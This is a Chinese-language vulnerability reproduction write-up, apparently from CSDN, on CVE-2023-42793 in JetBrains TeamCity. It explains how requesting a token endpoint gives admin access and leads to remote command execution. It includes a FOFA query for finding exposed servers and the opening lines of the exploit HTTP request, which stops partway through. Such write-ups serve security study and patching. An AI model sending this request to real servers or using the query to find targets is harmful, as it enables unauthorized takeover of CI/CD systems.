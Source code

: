 
# JetBrains TeamCity RCE漏洞复现(CVE-2023-42793)

### 0x01 产品简介

 [JetBrains](https://so.csdn.net/so/search?q=JetBrains&spm=1001.2101.3001.7020) TeamCity 是 JetBrains 公司开发的一款通用 CI/CD 软件平台。

### 0x02 漏洞概述

 JetBrains TeamCity 可通过访问 /app/rest/users/{ {id}}/tokens/RPC2 端点获取对应 id 用户的有效 token，携带 admin token 访问受限端点导致[远程命令执行](https://so.csdn.net/so/search?q=%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C&spm=1001.2101.3001.7020)或创建后台管理员用户。

### 0x03 影响范围

TeamCity On-Premises version < 2023.05.04 

### 0x04 复现环境

[FOFA](https://so.csdn.net/so/search?q=FOFA&spm=1001.2101.3001.7020)：body="Log in to TeamCity"

![](assets/1701746642-714ed9997a5de8c2c126bf79667ffe54.png)

### 0x05 漏洞复现 

获取id为1用户的tooken

```cobol
POST /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) V
```
